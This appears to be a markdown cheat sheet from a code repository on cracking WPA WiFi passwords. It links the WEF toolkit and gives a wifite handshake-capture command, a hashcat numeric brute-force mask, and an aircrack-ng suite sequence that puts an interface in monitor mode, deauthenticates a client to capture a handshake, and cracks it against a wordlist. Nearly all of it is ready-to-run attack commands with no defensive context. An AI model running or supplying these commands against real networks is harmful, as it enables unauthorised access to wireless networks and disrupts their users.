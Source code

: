 
# WEF
https://github.com/D3Ext/WEF

# Wifite
sudo wifite -mac --skip-crack --clients-only -wpa --no-wps --no-pmkid

https://hashcat.net/cap2hashcat/

hashcat.exe -m 22000 HASHFILE -a 3 ?d?d?d?d?d?d?d?d?d

# The old way
```bash
airmon-ng check
airmon-ng check kill
airmon-ng start INTERFACE
airodump-ng INTERFACE
airodump-ng INTERFACE --bssid APMAC -c CHANNEL -w CAPFILE
aireplay-ng INTERFACE --deauth 20 -a APMAC -h CLIENTMAC
aircrack-ng -w WORDLIST CAPFILE
airmon-ng stop INTERFACE
systemctl start network-manager
```
